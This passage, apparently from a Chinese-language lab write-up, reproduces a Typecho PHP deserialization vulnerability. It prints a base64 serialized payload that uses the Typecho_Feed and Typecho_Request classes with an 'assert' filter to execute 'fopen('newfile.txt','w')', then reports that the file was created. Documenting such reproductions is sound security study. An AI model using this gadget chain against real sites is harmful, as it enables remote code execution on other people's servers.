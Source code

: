 ### 执行其他系统命令

基于上述反序列化漏洞，我们可以构造不同的 Payload 来执行 fopen(\'newfile.txt\', \'w\')命令,新建一个文件。我们把exe.php文件中代码句` $this->_params['screenName'] = 'phpinfo()'; `中的 `phpinfo()`替换为 `fopen(\'newfile.txt\', \'w\');` ，即在执行exe.php后产生一个base64编码：

> YToxOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6MTp7czoxODoiAFR5cGVjaG9fRmVlZABpdGVtIjthOjE6e3M6NjoiYXV0aG9yIjtPOjE1OiJUeXBlY2hvX1JlcXVlc3QiOjI6e3M6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX3BhcmFtcyI7YToxOntzOjEwOiJzY3JlZW5OYW1lIjtzOjI1OiJmb3BlbignbmV3ZmlsZS50eHQnLCAndycpIjt9czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfZmlsdGVyIjthOjE6e2k6MDtzOjY6ImFzc2VydCI7fX19fX0=

执行payload：界面没有显示

![image-20250606233021507](assets/image-20250606233021507.png)

但是在exe.php的同目录下出现了新建的new.file.txt说明执行成功！

![image-20250606233149951](assets/image-20250606233149951.png)
